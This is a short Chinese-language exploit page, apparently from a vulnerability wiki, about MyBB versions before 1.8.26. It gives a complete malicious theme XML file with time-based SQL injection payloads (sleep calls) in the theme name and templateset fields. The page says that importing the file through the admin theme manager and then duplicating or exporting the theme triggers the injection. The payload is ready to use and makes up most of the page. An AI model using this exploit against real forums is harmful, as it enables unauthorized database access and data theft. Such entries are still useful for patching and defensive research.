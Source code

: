 <languages  />

<div lang="chinese" dir="ltr" class="mw-content-ltr">
影響版本
--------

</div>
    < 1.8.26

<div lang="chinese" dir="ltr" class="mw-content-ltr">
漏洞利用
--------

</div>
<div lang="chinese" dir="ltr" class="mw-content-ltr">
在後台主題管理處導入構造的惡意xml

</div>
    <?xml version="1.0" encoding="UTF-8"?>
    <theme name="1' and sleep(10) and '" version="1825">
    <properties>
    <templateset>-2' or sleep(0.01) or '</templateset>
    <editortheme><![CDATA[mybb.css]]></editortheme>
    <imgdir><![CDATA[images]]></imgdir>
    <logo><![CDATA[images/logo.png]]></logo>
    <tablespace><![CDATA[5]]></tablespace>
    <borderwidth><![CDATA[0]]></borderwidth>
    <color><![CDATA[]]></color>
    <disporder><![CDATA[a:7:{s:10:"global.css";i:1;s:10:"usercp.css";i:2;s:9:"modcp.css";i:3;s:16:"star_ratings.css";i:4;s:14:"showthread.css";i:5;s:17:"thread_status.css";i:6;s:8:"css3.css";i:7;}]]></disporder>
    </properties>
    <stylesheets>
    </stylesheets>
    <templates>
    </templates>
    </theme>

<div lang="chinese" dir="ltr" class="mw-content-ltr">
點擊Duplicate Theme,抓包，成功延时注入（導出主題也會存在該注入）

</div>
